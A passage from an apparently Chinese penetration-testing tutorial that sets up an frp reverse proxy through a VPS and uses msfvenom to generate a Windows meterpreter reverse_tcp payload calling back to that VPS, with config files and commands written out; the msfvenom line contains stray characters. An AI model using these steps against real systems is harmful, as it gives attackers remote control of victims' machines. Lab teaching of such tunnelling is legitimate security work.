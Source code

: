 ![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0K6PXnvKy1QwZF5DRjE1AJEesOC8JGyr2aTIhI3SOxcHUe03uOdIQfg/640?wx_fmt=png)  

### **7.2 反向代理**

`#环境**：**``kali：192.168.109.128``Win2008：192.168.1.10``vps：x.x.x.x`

①服务端配置

```
#frp服务端与客户端连接端口，frps和frpc必须一致
bind\_port = 7000
```

②服务端启动 frp

```
./frps -c ./frps.ini
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS01wmOby3iaSF4QIyMpk77exFQZ5Mnxj8F53YONxIFHb4mdRT0ESTO1Cg/640?wx_fmt=png)  

③客户端 frpc.ini 文件配置

```
\[common\]
server\_addr = x.x.x.x     #你的云主机ip
server\_port = 7000        # frpc工作端口，必须和上面frps保持一致

\[msf\]
type = tcp
local\_ip = 127.0.0.1
local\_port = 5000            #转发给本机的5000
remote\_port = 6000         #服务端用6000端口转发给本机 
```

④启动客户端

```
./frpc -c ./frpc.ini
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0xUyRpdGCH7gDpfbzCCXSalsZNyY6Ewp1ricwPknGriawHSXubPVm9jibA/640?wx_fmt=png)  

  
⑤连接成功  

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0nFEQuGe8X6BfH6pQwGAHx37wMztiaSthg5jyN1pdNDiaLmmDVuukXKUA/640?wx_fmt=png)

  
⑥msf 生成 payload  

```
msfvenom -p windows/meterpreter/reverse\_tcp lhost=x.x.x.x lport=6000 x-f exe x>frp.exe
#注意：
lhost：必需设置为vps服务端ip
lport：设置你在frpc.ini的remote\_port = 6000
```

只有通过服务器的 6000 端口数据包才能成功转发 kali，这也是使用 frp 反向代理原因
